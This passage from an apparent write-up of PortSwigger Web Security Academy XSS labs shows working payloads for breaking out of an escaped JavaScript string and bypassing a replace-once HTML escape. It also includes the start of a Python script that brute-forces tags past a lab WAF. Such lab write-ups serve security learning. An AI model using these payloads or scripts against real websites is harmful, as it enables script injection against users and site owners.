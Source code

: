 The website attempts to escape the `\"` search:

![](../../.gitbook/assets/portswigger-xss-writeup-image-6.png)

I ended up reading the solution as I could not figure this one out. 

Turns out there is a need for an **arithmetic operator** to separate expressions before `alert()` is called, and to comment out the rest using `//`. 

`\"-alert(1)}//` solves the lab.

## Lab 13: Stored DOM XSS

Same thing as above, this time it uses `loadCommentsWithVulnerableEscapeHtml.js` to load comments. 

There were a few lines that were interesting:

```js
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}

avatarImgElement.setAttribute("src", comment.avatar ? escapeHTML(comment.avatar) : "/resources/images/avatarDefault.svg");
```

`setAttribute` was a sink, allowing for `img` tags to be used to load stuff. The problem with its 'escape' is that the `replace` function only **works once**. This means that it **ONLY REPLACES THE FIRST MATCH**.

Using `<><img src=1 onerror=alert(1)>` works since it bypasses the check!

## Lab 14: Reflected XSS with tag and attribute blocking

This lab has a WAF that causes the website to return a 400 code should an invalid tag be entered.

Portswigger provides a cheat sheet page with all their custom tags and events, so I can just brute force it with the following script:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0acb009003e73d8d83dc196500640085'
COOKIE = 'IfSHboN6FUAF2UQ6zqWOQ3H2kKSJKv5P'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
i = 1
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()

with open('all_tags','r') as f:
	for tags in f:
		params = {
			'search':f'<{tags}>'
		}
```